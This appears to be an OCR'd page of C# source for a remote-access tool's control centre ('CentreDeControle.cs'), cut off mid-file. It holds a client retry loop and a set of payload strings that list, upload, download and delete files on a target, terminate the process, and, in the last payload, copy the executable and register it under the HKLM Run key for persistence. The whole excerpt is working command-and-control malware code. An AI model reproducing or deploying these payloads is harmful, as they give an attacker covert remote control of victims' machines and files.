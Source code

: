 			}
			client.Close();
		} catch(Exception exception) {

		}
		Thread.Sleep(RETRY_DELAY);
	}
}
...

CentreDeControle.cs :

public const string PAYLOAD_ECHO = "public static byte[] execute(){ return System.Text.ASCIIEncoding.ASCII.GetBytes(\"Hello \" + Server.ID); }";
public const string PAYLOAD_LIST_DIR = @"public static byte[] execute(){ 
			string[] array1 = System.IO.Directory.GetDirectories(""."");
			System.Text.StringBuilder sb = new System.Text.StringBuilder();
			foreach (string name in array1){ 
				sb.Append(name + ""\n"");
			}
			return System.Text.ASCIIEncoding.ASCII.GetBytes(sb.ToString());
		}";
public const string PAYLOAD_PWD = @"public static byte[] execute(){
			return System.Text.ASCIIEncoding.ASCII.GetBytes(System.IO.Directory.GetCurrentDirectory());
		}";
public const string PAYLOAD_CD = @"public static byte[] execute(){{
			string dir = ""{0}"";
			System.IO.Directory.SetCurrentDirectory(dir);
			return System.Text.ASCIIEncoding.ASCII.GetBytes(""Directory changed to "" + dir);
		}}";
public const string PAYLOAD_UPLOAD = @"public static byte[] execute(){{
			System.IO.File.WriteAllBytes(""{0}"", Convert.FromBase64String(""{1}""));
			return System.Text.ASCIIEncoding.ASCII.GetBytes(""File {0} successfully created."");
		}}";
public const string PAYLOAD_DOWNLOAD = @"public static byte[] execute(){{
			return System.IO.File.ReadAllBytes(""{0}"");
		}}";
public const string PAYLOAD_DELETE = @"public static byte[] execute(){{
			System.IO.File.Delete(""{0}"");
			return System.Text.ASCIIEncoding.ASCII.GetBytes(""File {0} deleted"");
		}}";
public const string PAYLOAD_LS = @"public static byte[] execute(){
			string[] array1 = System.IO.Directory.GetFiles(""."");
			System.Text.StringBuilder sb = new System.Text.StringBuilder();
			foreach (string name in array1){ 
				sb.Append(name + ""\n"");
			}
			return System.Text.ASCIIEncoding.ASCII.GetBytes(sb.ToString());
		}";
public const string PAYLOAD_TERMINATE = @"public static byte[] execute(){
			System.Environment.Exit(0);
			return System.Text.ASCIIEncoding.ASCII.GetBytes("""");
		}";
public const string PAYLOAD_PERSIST = @"public static byte[] execute(){{
			string path = System.IO.Path.GetTempFileName() + "".exe"";
			System.IO.File.Copy(System.Diagnostics.Process.GetCurrentProcess().MainModule.FileName, path);
			string runKey = ""SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"";
			Microsoft.Win32.RegistryKey startupKey = Microsoft.Win32.Registry.LocalMachine.OpenSubKey(runKey);
			if (startupKey.GetValue(""{0}"") == null){{
				startupKey.Close();
				startupKey = Microsoft.Win32.Registry.LocalMachine.OpenSubKey(runKey, true);
				startupKey.SetValue(""{0}"", path);
				startupKey.Close();
			}}
			return System.Text.ASCIIEncoding.ASCII.GetBytes(""Key {0} created"");